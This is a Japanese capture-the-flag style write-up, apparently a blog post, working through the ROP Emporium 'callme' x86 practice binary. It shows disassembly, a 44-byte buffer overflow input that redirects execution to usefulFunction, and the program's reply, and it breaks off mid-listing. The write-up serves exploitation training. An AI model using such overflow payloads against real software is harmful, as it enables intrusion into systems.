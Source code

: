 ```
   0x08048734 <+71>:	call   0x80484c0 <read@plt>
   0x08048739 <+76>:	add    esp,0x10
   0x0804873c <+79>:	sub    esp,0xc
   0x0804873f <+82>:	push   0x804886e
   0x08048744 <+87>:	call   0x8048500 <puts@plt>
   0x08048749 <+92>:	add    esp,0x10
   0x0804874c <+95>:	nop
   0x0804874d <+96>:	leave  
   0x0804874e <+97>:	ret 
```



call one,call two,call threeがあやしい。

usefulFunctionもなんか怪しい。

まぁとりあえず今までと同じようにpwnmeに脆弱性があるので見てあげようか

### 解析



```
❯ ./callme32 
callme by ROP Emporium
x86

Hope you read the instructions...

> hello
Thank you!

Exiting
```

```read(0,ebp-0x28,0x200)```ぽいので適当に44文字入力してuseFulFunctionのアドレスを入力する

```
❯ python2 -c "print 'A' * 44 +  '\x4f\x87\x04\x08'" | ./callme32
callme by ROP Emporium
x86

Hope you read the instructions...

> Thank you!
Incorrect parameters

```



なんか引数を要求されたぜ....

とりあえずuseFulFunctionをしっかり見ていくか

```
0804874f <usefulFunction>:
 804874f:       55                      push   ebp
 8048750:       89 e5                   mov    ebp,esp
 8048752:       83 ec 08                sub    esp,0x8
 8048755:       83 ec 04                sub    esp,0x4
 8048758:       6a 06                   push   0x6
 804875a:       6a 05                   push   0x5
 804875c:       6a 04                   push   0x4
 804875e:       e8 7d fd ff ff          call   80484e0 <callme_three@plt>
 8048763:       83 c4 10                add    esp,0x10
 8048766:       83 ec 04                sub    esp,0x4
 8048769:       6a 06                   push   0x6